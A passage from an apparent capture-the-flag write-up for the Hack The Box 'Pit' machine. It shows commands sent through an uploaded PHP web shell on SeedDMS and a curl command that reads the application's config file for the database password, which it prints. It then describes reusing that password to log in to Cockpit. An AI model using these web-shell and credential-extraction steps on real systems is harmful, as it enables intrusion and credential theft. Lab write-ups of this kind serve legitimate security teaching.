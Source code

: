 **Third,** Go to `http://dms-pit.htb/seeddms51x/seeddms/data/1048576/29/1.php?cmd=id` to get the command response in browser.
* "data" and "1048576" are default folders where the uploaded files are get saved.
* any file name renamed to `1`

![](/assets/img/posts/pit/php-shell.png)

_Reverse shell is not working_ **Reason: [SElinux](https://www.redhat.com/en/topics/linux/what-is-selinux); ippsec [explained](https://www.youtube.com/watch?v=IF5uhe1qR2I&t=3380s)**

After some enumeration from web shell, found database creds. 
```bash
❯ curl -s 'http://dms-pit.htb/seeddms51x/data/1048576/35/1.php?cmd=cat+../../../conf/settings.xml|grep+dbPass|tail+-n1'
<pre>    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
</pre>%
```

Creds worked for cockpit server with username "michelle".

![](/assets/img/posts/pit/cockpit-logedin.png)


And get the user shell on host form cockpit terminal.
